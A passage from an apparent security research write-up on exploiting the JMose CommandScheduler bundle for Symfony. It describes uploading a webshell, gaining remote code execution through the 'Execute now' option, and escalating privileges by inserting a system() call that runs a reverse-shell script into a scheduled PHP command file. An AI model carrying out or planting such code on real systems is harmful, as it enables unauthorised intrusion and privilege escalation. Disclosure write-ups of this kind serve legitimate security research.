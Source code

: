 It is just a matter of finding a writable-folder, and we know that almost every website has at least one with weak permissions, that hopely let us to execute PHP files, and an existent file that is not a valid secretfile to raise the error. For the sake of the demo, let's pretend that the website is stored in a directory owned by the user who executes PHP, therefore also public/ directory will be writable.

## Remote code execution

Actually, we just uploaded a basic webshell that will let us to execute code on a non-hardened PHP stack.

Remember about the *Execute now* checkbox? It let us to run the command while saving. This means, that the command will be executed by the webserver as soon as we issue the POST call. Giving us RCE as limited user. Still RCE.

Easy win? No, there's more! Just let alone that checkbox for a second.

## Extra mile
What we love the most are extra miles, and here we have a big one.

A webshell gives us low privileges, mostly apache/nobody/www-data depending on Linux distribution: pretty far from being root, still a foothold.

What we overlooked, is how commands are scheduled. JMose CommandScheduler setup guide doesn't give details, just states:

> After that, you have to set (every few minutes, it depends of your needs) the following command in your system crontab :
>
> $ php bin/console scheduler:execute --env=env -vvv [--dump] [--no-output]

This dollar sign normally represent a standard user. We know that least privilege is a unicorn when developing, and this makes that dollar sign to become a more privileged user, if not root.

We also know that even if a webshell file is owned by root, it will be executed by the webserver, that runs as unprivileged user. Like what happens when we check *Execute now*.

After having read some notes I took during the research, the path I choosed was the creation of a new command that just run a reverse shell, schedule it, and wait for the eventual non-apache user to run the scheduler. It's not an easy root, but eventually leads to a standard user grants.

To achive straight code execution, without the need to use the webserver, I simply edited an existent command file and added a ``  `/bin/bash runme` `` or a `exec/system/whatever("/bin/bash runme")` just after the namespace:

```
<?php
/*
 * This file is not part of the Symfony package.
 * (c) guly
 * No copyright or license information, use at your own risk.
 */

namespace App\Command;

system("/bin/bash /var/www/symfony/app/public/revshell.sh");

use Symfony\Component\Console\Command\Command;
use Symfony\Component\Console\Input\InputArgument;
use Symfony\Component\Console\Input\InputInterface;
use Symfony\Component\Console\Input\InputOption;
use Symfony\Component\Console\Output\ConsoleOutputInterface;
use Symfony\Component\Console\Output\OutputInterface;
use Symfony\Component\Console\Style\SymfonyStyle;

class WannaRootCommand extends Command
{
```